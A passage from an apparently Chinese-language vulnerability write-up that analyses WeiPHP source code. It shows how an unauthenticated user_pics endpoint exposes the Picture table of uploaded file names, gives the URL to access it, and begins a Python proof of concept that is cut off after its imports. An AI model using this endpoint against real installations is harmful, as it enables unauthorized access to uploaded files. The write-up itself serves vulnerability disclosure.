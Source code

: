 可以看到这部分代码写入了 Picture 表中

```php
$id = $this->insertGetId($data);
```

我们查看一下数据库的这个数据表，可以发现之前所上传的数据全部缓存在这个表里了

![](/img/20210924013650437965.png)

我们现在则需要找到不需要登录的地方来获得这些数据，所以可以全局去查找调用了这个 Picture 表的地方

![](/img/20210924013650785448.png)

找到一处可以利用的地方

```php
function user_pics()
    {
        $map['wpid'] = get_wpid();
        $picList = M('Picture')->where(wp_where($map))
            ->order('id desc')
            ->select();
        $this->assign('picList', $picList);
        exit($this->fetch());
    }
```

跟进 **get_wpid** 函数

```php
function get_wpid($wpid = '')
{
    if (defined('WPID')) {
        return WPID;
    } else {
        return 0;
    }
}
```

查看 WPID 的定义，文件位置在**config\weiphp_define.php**

![](/img/20210924013651066543.png)

定义值默认为 1，所以这里调用则可以获得数据库中Pictrue表的内容，间接的知道了文件内容以及文件名

访问地址: **http://webphp/public/index.php/home/file/user_pids**

![](/img/20210924013651394631.png)

可以看到文件名，根据url地址访问选择下载即可

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import random
import re


def title():
    print('+------------------------------------------')
```